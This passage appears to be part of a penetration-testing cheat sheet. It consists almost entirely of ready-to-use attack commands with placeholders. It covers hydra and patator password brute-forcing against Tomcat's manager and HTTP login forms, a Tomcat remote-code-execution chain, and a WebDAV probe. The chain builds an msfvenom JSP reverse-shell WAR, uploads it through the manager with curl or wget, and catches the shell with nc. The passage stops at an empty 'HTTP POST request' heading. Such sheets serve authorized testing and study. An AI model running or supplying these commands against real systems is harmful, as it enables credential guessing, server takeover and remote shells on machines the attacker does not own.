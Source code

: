 #### Brute force

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> -f <IP> http-get /manager/html -vV -u
```

#### Tomcat panel RCE

```
# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

# Upload payload
Tomcat6 :
wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'

# Listener
nc -lvp <PORT>

# Execute payload
curl http://<IP>:8080/shell/
```

### WebDav

```
davtest -url <URL>
```

### HTTP brute force authentication

#### HTTP basic authentication

```
# Hydra
hydra -l <USER> -V -P <PASSWORDS_LIST> -s 80 -f <IP> http-get /<URL_ENDPOINT>/ -t 15

# Patator
python patator.py http_fuzz auth_type=basic url=<URL> user_pass=FILE0 0=<USER:PASSWORD_LIST> -x ignore:code=401 -x ignore:code=307
```

#### HTTP GET request

```
hydra <IP> -V -l <USER> -P <PASSWORDS_LIST> http-get-form "/login/:username=^USER^&password=^PASS^:F=Error:H=Cookie: safe=yes; PHPSESSID=12345myphpsessid" -t <THREADS_NUMBER>
```

#### HTTP POST request
